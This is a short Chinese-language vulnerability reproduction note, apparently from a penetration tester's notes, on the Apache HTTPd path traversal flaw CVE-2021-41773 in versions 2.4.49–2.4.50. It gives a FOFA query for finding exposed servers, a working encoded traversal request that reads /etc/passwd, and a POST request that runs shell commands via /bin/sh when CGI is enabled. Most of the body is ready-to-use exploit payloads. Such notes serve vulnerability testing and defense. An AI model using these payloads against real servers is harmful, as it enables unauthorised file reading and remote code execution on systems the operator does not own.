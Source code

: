 # Apache HTTPd 路径穿越漏洞 CVE-2021-41773

## 漏洞描述

Apache HTTPD是一款HTTP服务器，它可以通过mod_php来运行PHP网页。其2.4.49~2.4.50-本中存在一个漏洞，可读取服务器中的任意文件

## 漏洞影响

```
Apache HTTPd 2.4.49~2.4.50版本
```

## FOFA

```
server="Apache/2.4.49"
```

## 漏洞复现

Chorme插件Wappalyzer获取 Apache版本

![image-20220525155347737](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251554093.png)

验证POC

```
/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

![image-20220525155515446](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251555506.png)

开启CGI的情况下可RCE

```
POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh
  
B=|id>/tmp/id_txt
```